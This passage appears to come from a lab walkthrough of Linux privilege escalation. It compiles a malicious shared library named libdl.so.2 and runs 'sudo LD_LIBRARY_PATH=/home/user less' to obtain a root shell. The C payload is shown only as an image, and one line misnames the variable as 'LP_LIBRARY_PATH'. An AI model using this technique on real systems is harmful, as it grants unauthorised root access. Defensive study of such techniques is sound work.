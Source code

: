 - Save file with .c extension with the above contents. 
![env-shell.c](Pasted_image_20230515144843.png)
- I saved my file as shell.c

#### Step 5.
- Compile the above file into the name of the library we chose in step 3 which is `libdl.so.2` by running the following command
`gcc -fPIC -shared -o libdl.so.2 shell.c`
(change shell.c to the name of your file, and libdl.so.2 to the name of your selected library)

#### Step 6. 
Run the program you chose on step 2 via sudo while setting `LP_LIBRARY_PATH` environment variable to the path where we compiled our .c file.
On my lab
`sudo LD_LIBRARY_PATH=/home/user less`
![root_bash](Pasted_image_20230515145732.png)
- From the above output, we have successfully escalated our privileges. 


In conclusion, there are several ways to escalate privileges using the sudo command, which can potentially expose your system to security risks. It is important to be aware of these techniques and take steps to mitigate them. 







